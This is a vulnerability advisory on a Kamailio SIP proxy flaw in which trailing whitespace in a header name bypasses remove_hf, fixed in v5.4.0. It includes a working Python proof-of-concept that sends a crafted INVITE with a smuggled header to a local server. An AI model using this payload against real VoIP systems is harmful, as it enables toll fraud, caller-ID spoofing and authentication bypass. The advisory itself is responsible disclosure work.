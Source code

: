 # Kamailio vulnerable to header smuggling possible due to bypass of remove_hf

- Fixed versions: Kamailio v5.4.0
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf>
- Tested vulnerable versions: 5.3.5 and earlier
- Timeline:
    - Report date & issue patched by Kamailio:  2020-07-16
    - Kamailio rewrite for header parser (better fix): 2020-07-16 to 2020-07-23
    - Kamailio release with fix: 2020-07-29
    - Enable Security advisory: 2020-09-01

## Description

Kamailio is often configured to remove certain special internal SIP headers from untrusted traffic to protect against header injection attacks by making use of the `remove_hf` function from the Kamailio `textops` module. These SIP headers were typically set through Kamailio which are then used downstream, e.g. by a media service based on Asterisk, to affect internal business logic decisions. During our tests and research, we noticed that the removal of these headers can be bypassed by injecting whitespace characters at the end of the header name.

Further discussion and details of this vulnerability can be found at the Communication Breakdown blog: https://www.rtcsec.com/2020/09/01-smuggling-sip-headers-ftw/.

## Impact

The impact of this security bypass greatly depends on how these headers are used and processed by the affected logic. In a worst case scenarios, this vulnerability could allow toll fraud, caller-ID spoofing and authentication bypass.

## How to reproduce the issue

We prepared a docker-compose environment to demonstrate a vulnerable setup which can be found at <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf/repro>. The following python code could then be used to reproduce the issue:

```python
#!/usr/bin/env python3
sipmsg  = "INVITE sip:headerbypass@localhost SIP/2.0\r\n"
sipmsg += "Via: SIP/2.0/UDP 127.0.0.1:48017;rport;branch=z9hG4bK-%s\r\n"
sipmsg += "Max-Forwards: 70\r\n"
sipmsg += "From: <sip:anon@localhost>;tag=%s\r\n"
sipmsg += "To: sip:whatever@whatever.local\r\n"
sipmsg += "Call-ID: %s\r\n"
sipmsg += "CSeq: 1 INVITE\r\n"
sipmsg += "Contact: <sip:1000@127.0.0.1:48017;transport=udp>\r\n"
sipmsg += "X-Bypass-me : lol\r\n"
sipmsg += "Content-Length: 237\r\n"
sipmsg += "Content-Type: application/sdp\r\n"
sipmsg += "\r\n"
sipmsg += "v=0\r\n"
sipmsg += "o=- 1594727878 1594727878 IN IP4 127.0.0.1\r\n"
sipmsg += "s=-\r\n"
sipmsg += "c=IN IP4 127.0.0.1\r\n"
sipmsg += "t=0 0\r\n"
sipmsg += "m=audio 58657 RTP/AVP 0 8 96 101\r\n"
sipmsg += "a=rtpmap:101 telephone-event/8000/1\r\n"
sipmsg += "a=rtpmap:0 PCMU/8000/1\r\n"
sipmsg += "a=rtpmap:8 PCMA/8000/1\r\n"
sipmsg += "a=rtpmap:96 opus/8000/2\r\n"
sipmsg += "a=sendrecv\r\n"

target = ("127.0.0.1",5060)

import socket
import time
from random import randint
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
s.bind(("0.0.0.0",5088))
r = randint(1000,9999)
data = sipmsg % (r,r,r)
s.sendto(data.encode("utf-8"), target)
while True:
    data,addr=s.recvfrom(4096)
    print(data.decode("utf-8"))
    time.sleep(5)
```

In the case of a vulnerable version of Kamailio, Asterisk would respond with a 200 OK while in a fix version, you would get a 603 Decline response.

## Solutions and recommendations

The official Kamailio fix has been tested and found to sufficiently address this security flaw. We recommend making use of the latest release or backporting the fixes where possible. Making use of regular expressions to cover white-space characters with `remove_hf_re` has been suggested as mitigation for this issue for cases where the code cannot be upgraded.

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within minutes of our report being made available to him, as well as Torrey Searle for reporting this issue quickly to the Kamailio team.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

